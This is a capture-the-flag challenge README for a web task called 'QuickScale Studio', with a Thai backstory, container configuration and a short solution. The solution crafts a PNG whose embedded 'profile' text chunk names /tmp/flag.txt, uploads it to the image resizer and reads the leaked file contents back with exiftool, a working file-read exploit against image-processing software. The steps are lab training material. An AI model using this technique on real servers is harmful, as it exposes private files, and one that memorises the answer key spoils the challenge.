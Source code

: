 # QuickScale Studio

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web | Hard | 500 |

สมชายเขาได้ประสบปัญหากับการที่จะที่อยากย่อขนาดรูป แต่ด้วยที่เขาเป็น dev สุดเท่ห์ การจะเข้าไปตัดรูปใน photoshop คงง่ายเกินไปสำหรับเขา เขาจึงทำเว็บไซต์ที่สามารถ ย่อภาพได้ตั้งแต่ 25% - 100% และด้วยการที่จะทำแล้วไว้ใช้คนเดียวคงจะน่าเสียดายแย่ เขาจึงเปิดให้ใช้ฟรี และเวลาก็ล่วงเลยมามากกว่า 2 ปี ในฐานะที่คุณเป็น Cyber Security คุณจึงแนะนำให้ สมชายเช็ค github repo project ว่าโดนเตือนเรื่อง ใช้ version ที่มีช่องโหว่ไหม แต่เขาไม่สนใจ เพราะเขามั่นใจว่าเรามีระบบป้องกันการโดย injection อย่างดี และบอกกับคุณว่าถ้าแน่จริงก็ลอง hack แล้วบอกว่าค่าในไฟล์ `/tmp/flag.txt` คืออะไรหน่อยสิ ทำไม่ได้ละสิหึ

Format: `CSUBRU{...}`

---

## Hints

no hint

---

## Configuration

| Name | Value |
| :- | :- |
| Title | QuickScale Studio |
| Type | Dynamic Container |
| Category | Web |
| Max Attempts Allowed |  |
| Blood Bonus |  |
| Container Image | `ic-quick-scale-studio` |
| Service Port | 80 |
| CPU Limit (0.1 CPUs) |  |
| Memory Limit (MB) |  |
| Storage Limit (MB) |  |

### Flags

- `CSUBRU{...}`

### Build

- `docker build -t quickscale .`

---

## Analysis

1. สร้าง PNG ที่แทรก text profile ชี้ไปที่ `/tmp/flag.txt`
   ```bash
   pngcrush -text a "profile" "/tmp/flag.txt" test.png payload.png
   ```
2. อัปโหลดไฟล์ payload แล้วดาวน์โหลดรูปที่เว็บประมวลผลให้
3. อ่านข้อมูลโปรไฟล์ที่ฝังมา
   ```bash
   exiftool -b payload.png
   ```
4. ข้อความที่เปิดได้คือ flag
